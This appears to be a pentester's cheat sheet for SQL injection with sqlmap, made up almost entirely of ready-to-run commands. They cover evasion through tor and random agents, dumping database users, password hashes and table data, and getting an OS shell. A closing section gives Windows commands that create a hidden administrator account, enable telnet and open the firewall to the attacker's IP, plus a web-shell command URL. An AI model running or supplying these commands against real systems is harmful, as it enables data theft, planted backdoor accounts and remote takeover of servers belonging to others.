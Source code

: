# Using SqlMap

```shell
> sqlmap -u URl -data DataToSentInPost -p PARAMETER(id) --level 3 risk 3 -random-agent --tor --check-tor --delay=500 --randomize=delay
```

## SQLMAP

## First we try to get which DB is running on the server

```Shell
time sqlmap -r /path/to/request/file.txt --fingerprint
```

### Another syntax

You copy the request with header and body from ZAP/burp and save it to a file then

```Shell
time sqlmap -r /path/to/request/file.txt --fingerprint
```

## Grabbing server banner

```Shell
time sqlmap -r /path/to/request/file.txt --banner
```

## Grabbing current user, current db, host name & is the current user an admin

```Shell
time sqlmap -r /path/to/request/file.txt --current-user --current-db --hostname --is-dba
```

## Grabbing DB users (and passwords is is-dba == true)

```Shell
time sqlmap -r /path/to/request/file.txt --users --passwords
```

## Grabbing DBs

```Shell
time sqlmap -r /path/to/request/file.txt --dbs
```

## Grabbing Tables

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> --tables
```

## Grabbing Columns

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table1, table2> --columns
```

## Grabbing data from specific columns

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table_name> -C <column1,column2,column3> --dump
```

Sometimes sqlmap can not find a unique column to figure out how many rows are there,
so the work-around is to sort a column value so sqlmap figure out how many row are there

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table_name> --sql-query="SELECT column4,column7 FROM <db_name>.<table_name> ORDER BY <column4> DESC"
```

OR

```Shell
time sqlmap -r /path/to/request/file.txt --sql-query="SELECT column4,column7 FROM <db_name>.<table_name> ORDER BY <column4> DESC"
```

## Alternative way to get data from a DB

```Shell
time sqlmap -r /path/to/request/file.txt -D <Db_name> --sql-query="SELECT column_name from information_schema.columns where table_name = 'user'"
```

## Adding custom prefix or suffix to the sql query

```Shell
time sqlmap -r /path/to/request/file.txt --prefix="SELSCT * FROM <table_name> WHERE column_name='" --suffix=" -- " --banner
```

## Getting os-shell on the system

```Shell
time sqlmap -r /path/to/request/file.txt --os-shell
```

### Working with O/S Shell

- To see transactions ' tcpdump -i eth1 -vvv -X'

- How O/S Shell works
  - Sqlmap put on the server two files:
    - 1st stage uploader
    - 2nd stage Command Shell Page

- In case of the server is Windows, you can get access through the firewall like that

```Shell
> sc query state= all
> sc query tlnsvr
> sc config tlnserver start= demand
> sc start tlnsvr
> net user root toor /add
> net localgroup TelnetClients /add
> net localgroup Administrators root /add
> net localgroup TelnetClients root /add
> netsh firewall add portopening protocol=TCP port=23 name=telnet mode=enable scope=custom adresses=<your.public.ip.address>
```

- You also can access the command prompt through the webpage like that

http://server.url/<tmp file name>/cmd=ping%20<ip address>
